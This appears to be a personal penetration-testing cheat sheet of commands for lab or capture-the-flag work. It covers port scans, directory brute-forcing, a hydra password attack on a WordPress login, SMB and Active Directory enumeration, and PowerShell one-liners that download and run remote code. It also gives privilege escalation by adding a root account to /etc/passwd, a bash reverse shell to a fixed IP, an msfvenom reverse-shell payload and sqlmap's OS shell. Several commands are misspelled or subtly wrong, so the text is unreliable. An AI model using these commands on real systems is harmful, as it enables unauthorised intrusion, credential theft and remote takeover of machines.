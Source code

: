 # Nmap
sudo nmap -O -sS -p- "$target"
sudo nmap -sU -p- "$target"
sudo nmap -sC -sV "$target"
sudo nmap -sC -sV target -oN nmap/scriptscan && sudo nmap -O -sS -p- target -oN nmap/synscan && sudo nmap -sU -p- target -oN nmap/udpscan

# Sudo
sudo -l

# Web Enumeration (Dirb|gobuster)
dirb "http://$target" -r -z 10
gobuster dir -k --url "$target" --wordlist /usr/share/dirb/wordlists/common.txt -x php,html | tee <(sed "s/.*\r//g" > gobuster.txt)
hydra -l /usr/share/commix/src/txt/usernames.txt -p /usr/share/seclists/Passwords/cirt-default-passwords.txt "$target" -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
nikto -h "$target"

# SMB
sudo nbtscan -r "$target"
nmap -v -p 139,445 --script=smb-vuln-* "$target"
enum4linux -o "$target" -k none
smblcient -L "$target"
smbclient \\\\$target\\WORSPACE
smbmap -H target -u 0xdf -p 0xdf
evil-winrm -i target -u user -P password

# Upgrading Shell (pty)
python -c 'import pty; pty.spawn("/bin/bash")'
script /dev/null

# Powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://self/file')
iex(new-object net.webclient).downloadstring("http://self/file")
Also check out 16.2.3 for base64 executable transfer and execution


# Windows Priv Esc
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
net user [username]
ipconfig /all 
tasklist /SVC **all running proccesses**
route print **all routes**
netstat -ano  **all active tcp connections**
netsh advfirewall show currentprofile **current firewall settings**
chtasks /query /fo LIST /v **scheduled tasks**
wmic product get name, version, vendor **installed software**
wmic qfe get Caption, Description, HotFixID, InstalledOn **installed version**

# Linux Priv Esc
openssl password "$pasword" **generate password hash for $password**
echo "root2:$hash:0:0:root:/root:/bin/bash" >> /etc/passwd
docker run -v /:/mnt -it alpine

mkpasswd -m sha512 <password>

# WordPress (wp)
wpscan --url "http://$target" -e

# Compiling Shared Object (so)
gcc -o outfile.so -shared infile.c -fPIC

# Reverse Shell
bash -i >& /dev/tcp/192.168.119.194/8000 0>&1

# John the ripper
zip2john # extract hahs for john from protected zip file (also rar2john)

# Impacket
GetNPUsers.py # userful for AD attacks looking for user creds

# Active Directory AD
evil-winrm.rb -i target -u username -p password
bloodhound-python

# RPC
rpccliet -U "" -N target

# DNS
dig @target ip
nslookup
> server target
dig axfr target # zone transfer

## Enumeration
enumdonusers
enumdomgroups
querygroup <groupnumber>

# Misc Tools Yet to be tried (binwalk|sqlmap)
binwalk - find hidden parts in binary files (e.g. .tar hidden in an .jpg)
sqlmap - look for injections -- sqlmap -u 'http://target/dashboard.php?search=any+query' --cookie="PHPSESSID=3bqvp5sdfgobdcipjs24fkdvg2"
- Also try with the `--os-shell` flag

# MSFVenom
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=444 -f msi -o rev.msi

# Force DHCP Addr
sudo dhclient 
sudo dhclient -r  # renew



